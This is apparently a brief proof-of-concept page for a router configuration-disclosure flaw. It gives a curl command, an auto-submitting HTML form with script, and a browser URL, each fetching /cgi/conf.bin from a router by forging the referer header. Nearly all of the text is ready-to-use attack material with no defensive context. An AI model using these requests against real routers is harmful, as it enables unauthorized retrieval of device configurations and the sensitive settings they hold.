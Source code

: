 # Configuration Disclosure

## 1. using curl
`curl http://<Router ip>/cgi/conf.bin -H 'referer: http://<Router ip>' > conf.bin`
## 2. using html:
`
<form id="autosubmit" action="http://192.168.100.1/cgi/conf.bin" method="GET">
   <input type="hidden" name="referer" value="http://192.168.100.1">
   <input type="submit" value="Submit Request" />
</form>

<script>
 document.getElementById("autosubmit").submit();
</script>
`

## 3. Using Browser:
`http://<Router ip>/cgi/conf.bin?referer=http://<Router ip>/`


# Not all router has same config path..

